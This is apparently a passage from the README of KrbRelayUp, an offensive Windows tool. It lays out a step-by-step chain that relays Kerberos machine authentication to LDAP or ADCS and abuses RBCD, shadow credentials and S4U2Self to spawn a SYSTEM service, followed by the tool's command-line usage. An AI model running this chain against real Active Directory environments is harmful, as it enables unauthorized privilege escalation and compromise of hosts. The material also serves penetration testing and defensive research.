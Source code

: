 ### Update - ADCS Web Enrollment Support
I added support for relaying Machine KRB auth to ADCS Web Enrollment (instead of LDAP). This eliminates the requirement of LDAP Signing not to be enforced in the domain since this attack does not relay to LDAP.

***Note***: *this attack method bypasses the Protected Users (or 'Account is sensitive and cannot be delegated') mitigation due to the S4U2Self abuse.*

1. Local machine account auth coercion ([KrbRelay](https://github.com/cube0x0/KrbRelay))
2. Kerberos relay to ADCS (HTTP) ([KrbRelay](https://github.com/cube0x0/KrbRelay) and [ADCSPwn](https://github.com/bats3c/ADCSPwn/))
3. Generate certificate request on behalf of the local machine account, submit it to ADCS Web Enrollment and finally retreive the certificate for the local machine account ([ADCSPwn](https://github.com/bats3c/ADCSPwn/))
4. Using said certificate to obtain a TGT for the local machine account via PKInit. ([Rubeus](https://github.com/GhostPack/Rubeus/))
5. Using the TGT to obtain privileged ST to local machine via S4U2Self and TGSSUB. ([Rubeus](https://github.com/GhostPack/Rubeus/))
6. Using said ST to authenticate to local Service Manager and create a new service as NT/SYSTEM. ([SCMUACBypass](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82))


## Usage
```
KrbRelayUp - Relaying you to SYSTEM

FULL: Perform full attack chain. Options are identical to RELAY. Tool must be on disk.

RELAY: First phase of the attack. Will Coerce Kerberos auth from local machine account, relay it to LDAP and create a control primitive over the local machine using RBCD or SHADOWCRED.
Usage: KrbRelayUp.exe relay -d FQDN -cn COMPUTERNAME [-c] [-cp PASSWORD | -ch NTHASH]

    -m   (--Method)                   Abuse method to use in after a successful relay to LDAP <rbcd/shadowcred> (default=rbcd)
    -p   (--Port)                     Port for Com Server (default=12345)
    -cls (--Clsid)                    CLSID to use for coercing Kerberos auth from local machine account (default=90f18417-f0f1-484e-9d3c-59dceee5dbd8)

    # RBCD Method:
    -c   (--CreateNewComputerAccount) Create new computer account for RBCD. Will use the current authenticated user.
    -cn  (--ComputerName)             Name of attacker owned computer account for RBCD. (default=KRBRELAYUP$)
    -cp  (--ComputerPassword)         Password of computer account for RBCD. (default=RANDOM [if -c is enabled])
    -u2u (--UseU2U)                   Treat the computer account (provided within -cn flag) as a user account for RBCD with UPNs (https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html)

    # SHADOWCRED Method:
    -f   (--ForceShadowCred)          Clear the msDS-KeyCredentialLink attribute of the attacked computer account before adding our new shadow credentials. (Optional)

    # ADCS Method:
    -ca  (--CAEndpoint)               CA endpoint FQDN (default = same as DC)
    -https                            Connect to CA endpoint over secure HTTPS instead of HTTP)
    -cet (--CertificateTemplate)      Certificate template to request for (default=Machine)


SPAWN: Second phase of the attack. Will use the appropriate control primitive to obtain a Kerberos Service Ticket and will use it to create a new service running as SYSTEM.
Usage: KrbRelayUp.exe spawn -d FQDN -cn COMPUTERNAME [-cp PASSWORD | -ch NTHASH] <-i USERTOIMPERSONATE>

```